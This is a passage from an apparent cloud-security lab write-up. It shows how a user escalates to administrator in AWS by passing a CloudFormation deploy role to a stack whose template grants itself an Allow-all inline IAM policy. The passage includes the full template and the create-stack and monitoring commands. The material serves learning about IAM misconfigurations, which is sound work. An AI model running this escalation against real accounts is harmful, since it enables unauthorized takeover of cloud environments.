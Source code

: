 Therefore, the CFN stack would be able to add an inline policy for a user. So, a malicious template is created as follows &rarr;

```json
{
  "Resources": {
    "tanqtemplate": {
      "Type": "AWS::IAM::Policy",
      "Properties": {
        "PolicyDocument": {
          "Version": "2012-10-17",
          "Statement": [
            {
              "Effect": "Allow",
              "Resource": "*",
              "Action": "*"
            }
          ]
        },
        "Users": [
          "student"
        ],
        "PolicyName": "cfn_admin_policy_via_exploit"
      }
    }
  }
}
```

This is then passed to the command used to create a CFN stack as follows &rarr;

```bash
awsn cloudformation create-stack \
--role-arn "arn:aws:iam::896825229505:role/lab12CFDeployRole" \
--template-body file://template.json --stack-name "pass-role-exploit-cfn" \
--capabilities "CAPABILITY_NAMED_IAM"
```

The `CAPABILITY_NAMED_IAM` capability must be passed since the template is making changes to the account using a policy which is custom and thus, "named". This will create the stack and the creation or created status can be monitored by using the following command &rarr;

```bash
# just describe
awsn cloudformation describe-stacks --stack-name "pass-role-exploit-cfn"

# get events
awsn cloudformation describe-stack-events --stack-name "pass-role-exploit-cfn"
```

Once this is created, the policy takes effect and the inline policies will show the new policy for `student` which grants it administrator privileges. This solves the lab.

---
